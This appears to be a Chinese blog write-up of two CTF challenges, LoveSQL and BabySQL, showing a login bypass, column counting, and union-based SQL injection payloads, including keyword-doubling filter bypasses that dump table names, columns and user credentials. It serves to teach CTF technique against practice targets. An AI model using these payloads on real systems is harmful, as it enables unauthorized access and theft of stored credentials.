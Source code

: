 ```yaml
---
title: 极客大挑战 2019 LoveSQL，BabySQL
date: 2024-09-13 19:16:12
permalink: /pages/7402d2/
sidebar: false
article: false
author: 
  name: Cola
  link: https://the0n3.top
---
```

## [极客大挑战 2019]LoveSQL

提交参数，url后拼接了参数和值

![1](https://the0n3.top/medias/daily/lovesql/1.png)

hackbar测试admin用户万能密码，可以成功登录。username的`#`井号需要url编码

![2](https://the0n3.top/medias/daily/lovesql/2.png)

`order by`测试字段数，3正常，4报错。只有3个字段

![3](https://the0n3.top/medias/daily/lovesql/3.png)

联合注入，2，3是回显位

![4](https://the0n3.top/medias/daily/lovesql/4.png)

使用hackbar自带的sql注入，爆出库，表`geekuser`,`l0ve1ysq1`，字段`username`,`password`

![5](https://the0n3.top/medias/daily/lovesql/5.png)

![6](https://the0n3.top/medias/daily/lovesql/6.png)

hackbar没有具体到字段数据，写一个查数据语句

```sql
union select 1,group_concat(username,password),3 from l0ve1ysq1
```

拿到flag

## [极客大挑战 2019]BabySQL

上一题的万能密码拿来用报错了

![7](https://the0n3.top/medias/daily/lovesql/7.png)

双写or，发现就可以过了，说明这题过滤了常用字符串，替换成空格，导致题目报错

![8](https://the0n3.top/medias/daily/lovesql/8.png)

双写联合注入

![9](https://the0n3.top/medias/daily/lovesql/9.png)

查询语句的from,where,information里的`or`也被吞掉了，需要双写
![10](https://the0n3.top/medias/daily/lovesql/10.png)

查表`b4bsql,geekuser`，查字段`id,username,password`，查数据

```sql
# 爆表
ununionion seselectlect 1,group_concat(table_name),3 frfromom infoorrmation_schema.tables whwhereere table_schema=database()
# 爆字段
ununionion seselectlect 1,group_concat(column_name),3 frfromom infoorrmation_schema.columns whwhereere table_schema=database()
# 爆数据，password的or也要双写
ununionion seselectlect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql%23
```

![11](https://the0n3.top/medias/daily/lovesql/11.png)